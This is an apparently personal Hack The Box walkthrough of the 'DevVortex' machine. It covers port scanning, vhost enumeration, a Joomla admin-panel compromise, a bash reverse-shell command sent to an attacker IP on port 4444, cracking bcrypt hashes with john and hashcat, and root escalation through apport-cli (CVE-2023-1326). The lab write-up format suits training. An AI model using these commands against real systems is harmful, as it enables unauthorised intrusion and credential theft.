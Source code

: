 ```yaml
---
title: "DevVortex"
date: 2023-11-29T11:30:03+00:00
tags: ["web","windows","joomla", "apport-cli"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Devvortex.png"
comments: false
description: "This is a friendly linux machine that is vulnerable due a low version of Joomla db."
---
```


## Room Information

- Room name: DevVortex
- Difficulty level: Easy
- Room link: [https://app.hackthebox.com/machines/](https://app.hackthebox.com/machines/devvortex)

![Untitled](/HTB/Devvortex.png)

## Tools Used

- Nmap
- wfuzz
- searchsploit
- gobuster
- hascat
- john

## Port Scanning

Other room, other port scan.

```bash
map -p- -sS --open --min-rate 5000 -n -Pn -oG allPorts 10.10.11.242
```

![Untitled](/HTB/devvortex-1.png)

```bash
nmap -p 22,80 -sCV --min-rate 5000-n -Pn -oN filtered 10.10.11.242
```

![Untitled](/HTB/devvortex-2.png)

Showing this scan, we can say that the vulnerability 99% is inside the website… So lest discover info of port 80.

 

## Enumeration

First I did was a subdomain enumeration to discard things, and I found one (dev.devvortex.htb)..

```bash
gobuster vhost -u devvortex.htb -w /usr/share/wordlists/dirbuster/dns/subdomains-top1million-5000.txt --append-domain -t 40 -k
```

other posibiliti…

```bash
ffuf -w /usr/share/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.devvortex.htb" -u http://devvortex.htb/ -mc 200-299
```

![Untitled](/HTB/devvortex-3.png)

Then I did a directory enumeration to saw if the web contains something interesting. And I saw an administrator panel which was a loguin panel of a joomla database.

![Untitled](/HTB/devvortex-4.png)

Also I discovered this file which contained the joomla version. So first I did since saw this was searching a bypass or something for this db. And I found a lot of them. 

![Untitled](/HTB/devvortex-5.png)

## Exploiting

I used search sploit for searching for exploits and I use this below:

![Untitled](/HTB/devvortex-6.png)

Then I logged with the above credential and I had access to de db panel such as super user…

![Untitled](/HTB/devvortex-7.png)

I found this post on hacktricks, and I followed the guide. Then I gain access to the machine as ww-data 👹

[Joomla](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/joomla)

![Untitled](/HTB/devvortex-8.png)

```bash
...?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.130/4444 0>&1'
```

![Untitled](/HTB/devvortex-9.png)

## Escalating Privileges

Then I throw a [`linpeas.sh`](http://linpeas.sh) instance and I show that there was a db running on the backend.. And I logged in using the lewis db credentials I got at first…

Then in the joomla db I found a table called ...._users that contained the ssh users and passwd hashed. So I start decoding them with hashcat and john:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

or 

```bash
hashcat -m 3200 -a 0 -w 4 hash /usr/share/wordlists/rockyou.txt
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/12d2695a-e000-4583-b0eb-acea8dd85502/Untitled.png)

So I’m actually user `logan` 👹

Then I enter by ssh to user logan…

First I always do is `sudo -l` and I saw this:

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/590a70a4-c444-4385-9b3d-bbc2e85bdbb5/Untitled.png)

The net thing I did was searching this program on google and throwing an instance ofr [`procmon.sh`](http://procmon.sh) to saw what procedures were running on the backend, and I found someone interesenting, related with apport-cli:

[CVE-2023-1326](https://launchpad.net/bugs/cve/CVE-2023-1326)

pd: [`procmon.sh`](http://procmon.sh) code 

```bash
#!/bin/bash

 old_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')

 while true; do
        new_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>]" | grep -vE "procmon|awk|kworker"
        old_process=$new_process
 done
```

I saw that using a example comamnd like this → `sudo apport-cli -c xxx.crash` didn’t works:

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/ec58aced-e54d-4e27-97c0-0846c8fc3dcb/Untitled.png)

But I saw in a post of the above link that if you put `less` at the end of the command we can see unexpected working jejeje 

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/1e2ac1a4-9411-47e3-9a6b-8af463671dd0/Untitled.png)

[systemd 246 Local Root Privilege Escalation ≈ Packet Storm](https://packetstormsecurity.com/files/174130/systemd-246-Local-Root-Privilege-Escalation.html)

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/90ad84ca-97bf-46d4-a800-1280824cef27/Untitled.png)

Soo I did this and now I’m user root 👹
